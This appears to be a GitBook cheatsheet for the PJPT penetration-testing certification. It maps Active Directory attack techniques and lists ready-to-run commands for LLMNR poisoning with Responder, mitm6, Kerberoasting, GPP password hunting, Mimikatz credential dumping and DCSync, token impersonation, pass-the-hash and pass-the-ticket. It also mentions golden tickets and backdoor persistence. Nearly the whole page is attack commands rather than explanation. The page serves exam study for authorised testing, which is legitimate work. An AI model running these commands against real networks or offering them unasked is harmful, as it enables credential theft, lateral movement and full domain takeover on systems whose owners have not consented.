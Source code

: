 # PJPT Techniques Mind Map - GitBook

```mermaid
mindmap
  root((PJPT))
    Initial Access
      LLMNR Poisoning
        responder -I eth0
      IPv6 Attacks
        mitm6 -d domain
      SMB Relay
        ntlmrelayx.py
      Password Spraying
        crackmapexec smb
    
    Quick Wins
      Kerberoasting⭐
        GetUserSPNs.py
        hashcat -m 13100
      GPP Passwords
        Get-GPPPassword
      Token Impersonation
        load incognito
      BloodHound
        SharpHound.exe
    
    Credential Dumping
      Mimikatz
        sekurlsa::logonpasswords
        lsadump::sam
      NTDS.dit
        secretsdump.py
        ntdsutil
    
    Lateral Movement
      Pass-the-Hash
        psexec.py -hashes
        evil-winrm -H
      Pass-the-Ticket
        getTGT.py
        kerberos::ptt
      RDP/WinRM
        xfreerdp
        Enter-PSSession
    
    Domain Admin
      DCSync
        lsadump::dcsync
      Golden Ticket
        kerberos::golden
      Persistence
        Backdoor accounts
        Scheduled tasks
```

## Quick Commands Cheatsheet

### 🚀 Start Here
```bash
# Terminal 1 - LLMNR
sudo responder -I eth0 -wrf

# Terminal 2 - IPv6
sudo mitm6 -d domain.local

# Terminal 3 - Check targets
crackmapexec smb 10.0.0.0/24
```

### 🎯 Must Do After Credentials
```bash
# Kerberoasting (ALWAYS!)
GetUserSPNs.py domain/user:pass -request -dc-ip DC_IP

# BloodHound collection
bloodhound-python -d domain -u user -p pass -c all

# Check for GPP
Get-GPPPassword
findstr /S cpassword \\dc\sysvol\*.xml
```

### 💀 After Local Admin
```powershell
# Mimikatz
privilege::debug
sekurlsa::logonpasswords

# Token impersonation
load incognito
list_tokens -u
impersonate_token DOMAIN\\Administrator
```

### 🔥 Lateral Movement
```bash
# Pass-the-Hash
psexec.py -hashes :NTLM domain/administrator@target

# Pass-the-Ticket
getTGT.py domain/user:pass
export KRB5CCNAME=user.ccache
psexec.py -k -no-pass domain/administrator@target
```

## Links to Detailed Guides

| Technique | File | Description |
|-----------|------|-------------|
| LLMNR Poisoning | [llmnr-poisoning.md](llmnr-poisoning.md) | Capture NTLMv2 hashes |
| Kerberoasting | [kerberoasting.md](kerberoasting.md) | Extract service account passwords |
| Pass Attacks | [pass-attacks.md](pass-attacks.md) | PTH, PTT, PTC techniques |
| Mimikatz | [mimikatz-overview.md](mimikatz-overview.md) | Credential dumping |
| Golden Tickets | [golden-ticket-attacks.md](golden-ticket-attacks.md) | Ultimate persistence |

---

> 💡 **Pro Tip**: Start with passive attacks (responder/mitm6) and ALWAYS try Kerberoasting after getting any valid credentials! 